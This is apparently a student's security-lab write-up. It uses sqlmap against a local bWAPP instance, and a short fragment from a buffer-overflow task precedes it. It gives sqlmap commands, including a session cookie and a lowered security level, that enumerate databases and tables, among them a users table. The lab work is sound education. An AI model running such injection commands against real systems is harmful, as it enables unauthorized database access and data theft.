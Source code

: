 Create a symbolic link to /bin/sh
```bash
sudo ln -sf /bin/zsh /bin/sh
```

Know the stack frame of the vulnerability file
![image](https://github.com/user-attachments/assets/b86505ea-f4d3-49fb-8f61-3a86a224e0d1)

# Task 2: Attack on the database of bWapp 
- Install bWapp (refer to quang-ute/Security-labs/Web-security). 
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:
Select SQL Injection hack
![Select sql injection](https://github.com/user-attachments/assets/0c217fd8-30ad-4f84-8320-73229277a174)

Get the URL at the page
![Get the URL](https://github.com/user-attachments/assets/008a3c9e-32fb-45ff-9369-d9f863d58934)

Get the page cookies through Chrome DevTools
![Get cookies through Chrome Devtool](https://github.com/user-attachments/assets/ceec14be-14b4-4b35-ae28-472969912817)

Find the available databases with the cookies
```bash
 sqlmap -u "http://localhost:8025/sqli_1.php" --cookie="PHPSESSID=ldg4i48a7bhj3iiagri8s3frs6; security_level=0" --forms --dbs 
```
![Available DBs](https://github.com/user-attachments/assets/c6607de6-4b69-43df-af84-d7d0d0fbc921)

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:
Get the available tables in the database
```bash
 sqlmap -u "http://localhost:8025/sqli_1.php" --cookie="PHPSESSID=ldg4i48a7bhj3iiagri8s3frs6; security_level=0" --forms --tables
```
![Available tables](https://github.com/user-attachments/assets/a13b0d64-ded1-4dbc-8a82-72597e3622f4)


# Databases and Tables

## Database: bWAPP
| Tables    |
|-----------|
| blog      |
| heroes    |
| movies    |
| users     |
| visitors  |
